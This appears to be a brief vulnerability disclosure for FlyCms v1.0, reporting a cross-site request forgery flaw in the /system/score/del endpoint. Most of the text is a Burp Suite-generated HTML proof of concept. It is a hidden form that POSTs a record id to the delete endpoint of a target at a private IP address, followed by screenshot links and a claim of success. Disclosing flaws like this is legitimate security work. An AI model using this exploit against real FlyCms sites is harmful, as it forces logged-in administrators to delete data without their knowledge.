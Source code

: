 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/score/del

![1](https://github.com/kayo-zjq/myc/assets/37147836/bc22c7f3-3dc6-4c90-beed-1ad08bb8a7e3)

Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/score/del?0.5148174040581429" method="POST">
      <input type="hidden" name="id" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/kayo-zjq/myc/assets/37147836/fec87dbc-ffe0-4a24-89af-c658283692fb)


Successed
